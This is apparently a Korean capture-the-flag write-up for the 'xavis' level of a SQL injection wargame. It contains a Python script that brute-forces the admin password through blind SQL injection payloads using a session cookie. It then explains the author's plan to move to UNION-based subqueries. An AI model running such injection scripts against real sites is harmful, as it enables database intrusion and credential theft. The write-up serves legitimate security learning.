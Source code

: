 ```php
```

앞선 문제들 중에서 `LIKE` 절을 이용한 풀이가 막힌 상태이다. 그러나 오히려 `left()`, `substr()`  등등이 사용가능 하다.

하지만 역시나

```python
import requests
cookie = {'PHPSESSID':'li50f951judq090e205e9dcs4h'}

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw={upw}'
	print(url)
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw():
	res = ""
	for c in range(1,10):
		for i in range(0,127):
			upw = f'\' or left(pw,{c})="{res}'+chr(i)+'" --+'
			response = my_request(upw)
			if "Hello admin" in response.text:
				print("I got: ",chr(i))
				res += chr(i)
				break

	print("I think it was completed")

def solve():
	find_pw()

if __name__ == "__main__":
	solve()	

```

이전에 풀었던 문제들처럼 브루트 포싱을 시도했음에도 전혀 결과가 나오질 않았고 쿼리가 잘못되었는지 수없이 확인했지만 값을 얻을 수 없었다. 

놓친 것이 있는지 코드를 다시 읽다보면 서브 쿼리를 사용이 가능할 것 같다는 생각이 들었다. 배워뒀었지만 그간 필터링에 의해 사용하지 못했던 것을 이용해보기로 했다. 그 중에서 가장 눈에 밟히는 것은 쿼리문을 합치는 `UNION` 연산자인데, 이를 이용하면 앞선 쿼리 결과와 함께 연관되어 결과 출력이 가능하다. 따라서 `A UNION B` 와 같은 쿼리에서 A로 부터 admin의 pw를 얻고 B에서 해당 결과를 출력시키도록 해야겠다.

### 서브쿼리
sqld 자격증 공부 당시 익혀둔 개념으로 `SELECT`와 같은 구문의 `WHERE` 또는 `FROM` 절에서  괄호 `()`를 이용하여 쿼리 안에 쿼리를 넣음으로써 다양한 결과를 얻어낼 수 있다.

예로 다음과 같다.

![image-20220612181453756](../img/image-20220612181453756.png)

서브 쿼리는 `SELECT` 구문에서 사용할 때, `FROM` 절에서 사용될 때, `WHERE` 절에서 사용될 때 등 사용되는 위치에 따라 결과값이 반드시 하나여야 한다는 등의 조건이 존재한다. 하지만 이번 문제에서 사용하려는 서브쿼리의 위치는 `WHERE` 절이기에 서브쿼리의 결과 칼럼이 1개이도록만 만들면 되겠다.
